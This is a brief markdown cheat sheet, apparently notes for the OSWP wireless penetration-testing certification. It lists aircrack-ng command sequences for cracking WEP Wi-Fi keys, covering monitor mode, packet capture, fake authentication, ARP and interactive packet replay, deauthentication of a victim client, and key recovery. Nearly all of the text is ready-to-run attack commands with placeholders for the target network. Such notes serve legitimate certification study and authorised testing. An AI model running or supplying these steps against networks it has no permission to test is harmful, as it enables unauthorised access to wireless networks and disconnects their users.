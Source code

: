 # OSWP
Offensive Security Wireless Professional

## WEP (Wired Equivalent Privacy)

### Cracking WEP with connected clients

```
airmon-ng start <INTERFACE> <channel>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC wlan0mon> wlan0mon (Fake authentication)
aireplay-ng -3 -b <BSSID> -h <MAC wlan0mon> wlan0mon (ARP replay attack)
aireplay-ng -0 1 -a <BSSID> -c <MAC VICTIM> wlan0mon (Deauthentication attack)
aircrack-ng <.CAP FILENAME>
```

### Cracking WEP via a connected client

```
airmon-ng start <INTERFACE> <CHANNEL>
airodump-ng -c <CHANNEL> –bssid <BSSID> -w <FILENAME> wlan0mon
aireplay-ng -1 0 -e <ESSID> -a <BSSID> -h <MAC INTERFACE> wlan0mon (Fake authentication)
aireplay-ng -2 -b <BSSID> -d FF:FF:FF:FF:FF:FF -f 1 -m 68 -n 86 wlan0mon (Interactive Packet Replay Attack)
aircrack-ng -z <.CAP FILENAME>
```

